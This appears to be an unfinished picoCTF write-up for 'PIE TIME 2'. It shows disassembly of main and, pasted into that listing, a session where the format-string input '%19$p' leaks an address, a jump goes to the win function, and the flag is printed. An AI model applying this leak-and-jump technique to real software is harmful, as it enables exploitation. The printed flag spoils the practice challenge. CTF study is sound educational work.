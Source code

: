 # PIE TIME 2

---

this is a [pico ctf](https://play.picoctf.org/practice/challenge/491?originalEvent=74&page=2) challenge

---

#### Description

> Can you try to get the flag? I'm not revealing anything anymore!!
> Additional details will be available after launching your challenge instance.

#### My attempts

This prompted me to look at the PIE TIME 1 to refresh my mind on what kind things it entailed. It was a program that you gave a memroy address so you could jump to the win function.

I tried doing an `objdump -d vuln` to see the memroy addresses of the functions. I found where the scanf happens and wehre the win function is. I also found where the main function is:

```
0000000000001400 <main>:
    1400:	f3 0f 1e fa          	endbr64
    1404:	55                   	push   %rbp
    1405:	48 89 e5             	mov    %rsp,%rbp
    1408:	48 8d 35 9a fe ff ff 	lea    -0x166(%rip),%rsi        # 12a9 <segfault_handler>
    140f:	bf 0b 00 00 00       	mov    $0xb,%edi
    1414:	e8 57 fd ff ff       	call   1170 <signal@plt>
    1419:	48 8b 05 f0 2b 00 00 	mov    0x2bf0(%rip),%rax        # 4010 <stdout@GLIBC_2.2.5>
    1420:	b9 00 00 00 00       	mov    $0x0,%ecx
    1425:	ba 02 00 00 00       	mov    $0x2,%edx
    142a:	be 00 00 00 00       	mov    $0x0,%esi
    142f:	48 89 c7             	mov    %rax,%rdi
    1432:	e8 49 fd ff ff       	call   1180 <setvbuf@plt>
Enter your name:%19$p
0x60076ac59441
 enter the address to jump to, ex => 0x12345: 0x60076ac5936a
You won!
picoCTF{p13_5h0u1dn'7_134k_71356635}
    1437:	b8 00 00 00 00       	mov    $0x0,%eax
    143c:	e8 86 fe ff ff       	call   12c7 <call_functions>
    1441:	b8 00 00 00 00       	mov    $0x0,%eax
    1446:	5d                   	pop    %rbp
    1447:	c3                   	ret
    1448:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
    144f:	00

```

There is also a printf vunerability as its not a string lineral from an buffer input. First thing I tried to exploit the printf vunerability is to do a enter a string of `%p`.
